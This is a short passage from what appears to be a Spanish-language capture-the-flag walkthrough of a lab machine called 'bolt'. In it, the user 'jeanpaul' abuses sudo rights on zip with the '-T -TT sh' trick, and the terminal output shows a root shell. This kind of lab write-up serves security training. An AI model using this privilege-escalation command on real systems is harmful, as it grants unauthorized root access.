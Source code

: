         <a href="/imagenes/maquinas/bolt/17.png"><img src="/imagenes/maquinas/bolt/17.png"></a>
</figure>
En la pagina buscamos zip y nos dirigimos a la parte de `sudo`.
<figure>
        <a href="/imagenes/maquinas/bolt/18.png"><img src="/imagenes/maquinas/bolt/18.png"></a>
</figure>
Copiamos las lineas de codigo y lo ejecutamos en la terminal de `jeanpaul`:

{% highlight bash %}
jeanpaul@dev:~$ TF=$(mktemp -u)
jeanpaul@dev:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
 id
rm: missing operand
Try 'rm --help' for more information.
~# 
{% endhighlight %}
